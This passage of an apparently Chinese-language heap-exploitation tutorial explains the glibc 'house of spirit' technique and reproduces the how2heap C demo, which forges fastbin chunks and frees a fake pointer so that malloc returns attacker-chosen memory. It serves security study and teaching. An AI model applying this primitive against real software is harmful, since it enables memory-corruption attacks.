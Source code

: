 +------------------+&lt;--point2 &lt;--free
|     (fake)chunk2   |
+------------------+
|     big chunk1   |
+------------------+
</code></pre>
这两种场景，在下文都会给出案例。接下来让我们根据how2heap的代码来学习这个技术的原理。
</li>
**原理解析**

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

int main()
`{`
    fprintf(stderr, "This file demonstrates the house of spirit attack.n");

    fprintf(stderr, "Calling malloc() once so that it sets up its memory.n");
    malloc(1);

    fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.n");
    unsigned long long *a;
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.n", sizeof(fake_chunks), &amp;fake_chunks[1], &amp;fake_chunks[9]);

    fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (&lt;= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.n");
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. n");
    fake_chunks[1] = 0x40; // this is the size

    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is &gt; 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_mem (&lt; 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.n", &amp;fake_chunks[1]);
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.n");
    a = &amp;fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!n", &amp;fake_chunks[1], &amp;fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %pn", malloc(0x30));
`}`
```
